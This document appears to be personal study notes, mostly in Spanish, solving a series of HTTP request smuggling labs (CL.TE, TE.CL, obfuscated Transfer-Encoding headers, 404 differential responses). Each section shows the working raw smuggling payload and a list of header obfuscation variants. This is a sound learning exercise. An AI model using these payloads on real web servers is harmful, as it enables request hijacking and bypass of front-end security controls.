

# know how laboratories http request smuggling


## Lab: HTTP request smuggling, basic CL.TE vulnerability

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

Nos dicen que hace falta que la siguiente petición sea GPOST

Lo que hacemos es ver las peticiones y la idea es que entendiendo que será una petición post la siguiente coger y poner un 0 para que termine y luego una G, para que aparezca en la siguiente petición delante del Post, siendo Gpost.

```html
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Transfer-Encoding: chunked

0

G
```


Respuestas:

1.  El Content-Lenght parece que es indiferente

2.  Únicamente añadiendo funciona, no hay que borar más nada.



3.  el connection no es necesario

4. Al menos en este caso no es necesario el Content-Type


5. Borrando todo lo único necesario es poner el POST , el Content-Length, y el encoding. Y aún así el content-length te lo pone automáticamente burpsuite. 
 
🟢🟢 Únicamente deberíamos de haber puesto el Transfer-Encoding: chunked el 0 , la G y el PoST . El content-lenght debe de aparecer pero está automático, si se desaciva habría que escribirlo.


## Lab: HTTP request smuggling, basic TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.


⚠️ Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


1. Cambiamos a post
2. El host dejamos el mismo, que es el de nuestro laboratorio
3. Content-Length tiene que ser manual El tamaño definiará
4. El Encodign está claro chunked
5. el primer número es el número de byte que contará y será en hexadecimal, hay que contar desde el principio del número

⚠️ Queremos que empiece a contar desde el primer caracter hasta el 0


El 19 es el 13 en hexadecimal pero queremos que pare justo antes del 0 por lo que será el 12

```html
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0
```

## Lab: HTTP request smuggling, obfuscating the TE header

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

Usaremos lo mismo que en el apartado anterior pero veremos las diferentes opciones de ofuscacion del encoded hasta que demos con una.

```html
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
```html
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

12
GPOST / HTTP/1.1

0
```


## Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

Tenemos que hacer que aparezca el Get /404

He dejado activo en repeater el content-lenght automático y solo puse el TE el 0 y el Get /404 HHTP/1.1 como aparece en los apuntes pero más reducido.

```html
Content-Length: 28
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
```


## Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

1. Al tratarse de una vulnerabilidad del tipo TE.CL es necesario desactivar de burpsuite el content-length automático.
2. Tenemos que enviar un POST al tener body
3. La url a la que queremos llegar es GET /404 HHTP/1.1

En uno de los laboratorios anteriores buscábamos lo mismo buscando que apareciese GPOST / HTTP/1.1

Ahora es exactamente lo mismo sino que aumentamos el tamaño y cambiamos a GET /404 HTTP/1.1 . Empecé por 12 sabiendo que iba a ser menos y aumenté a 13, 14 y ya funcionó

```html
Content-length: 4
Transfer-Encoding: chunked

14
POST /404 HTTP/1.1

0

```
